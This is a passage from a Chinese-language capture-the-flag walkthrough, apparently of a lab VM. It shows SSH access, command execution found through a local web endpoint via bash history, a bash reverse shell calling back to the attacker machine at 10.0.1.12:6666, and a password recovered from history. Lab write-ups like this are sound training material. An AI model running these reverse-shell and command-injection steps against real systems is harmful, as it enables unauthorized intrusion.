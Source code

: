 ssh 登录

```
ssh jehad@10.0.1.4
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9YnYSQoHjHjRg9fHianIEj3OMzAy8ZbNCMlH7Cv6PN8vYFR5chuicv0vg/640?wx_fmt=png)image-20211024182739700

### 4. 发现命令执行

查看 jehad 用户的命令记录

```
cat .bash_history
```

发现命令执行

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9H7Pic6UZadvBjCviaEqVQBEmVibxOuibZcWlAxbsTu4Juu6G8Y9Da3WUaw/640?wx_fmt=png)image-20211024183147660

试一下果然能行，是 losy 用户的权限

```
curl "http://127.0.0.1:9999/?cmd=id"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9XZorR14MW06d3cn58Z5z1bRRunGjYzcpeMpZwkcE1ARWYb0XKsKGag/640?wx_fmt=png)image-20211024183209010

### 5. 获取 losy 用户 shell

将反弹 shell 的文件下载到 / tmp 路径，kali 的 ip 是 10.0.1.12

```
#!/bin/bashbash -i >& /dev/tcp/10.0.1.12/6666 0>&1
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ92LNiaAj6DN4z0DOqR5KcQyTLDtTbp5vLeLdNKnia0s13uicVHOyQGZgTQ/640?wx_fmt=png)image-20211024184728185![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9BAOQVvyYKODgIQOzofW210H11Pe8lvVicp4UkITBE0ZIDkiaXhMR8FKA/640?wx_fmt=png)image-20211024184752397

```
curl "http://127.0.0.1:9999/?cmd=bash%20/tmp/shell"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9CkLTR2KicJpVpH1icrCUWp8ib4nsZibcSe0NQksW240Eiac6y1RrZyZkepw/640?wx_fmt=png)image-20211024184819008

### 6.user.txt

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9KAuGgiaJObPJeNEmXTViav2iar6WXEAVC9LaQnMO9vLPFx1wWGfUw4peA/640?wx_fmt=png)image-20211024184856738

### 7. 获取 losy 密码

再次查看历史记录，发现 losy 密码是 gang

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpBlKffibFM98lvicafBmDlJ9r5AAicUUlKGMIuA63l86HdvrIEgPZbcfrBbZTSvYU7nD2U5ew2ywrgA/640?wx_fmt=png)image-20211024185117045

成功连接 ssh
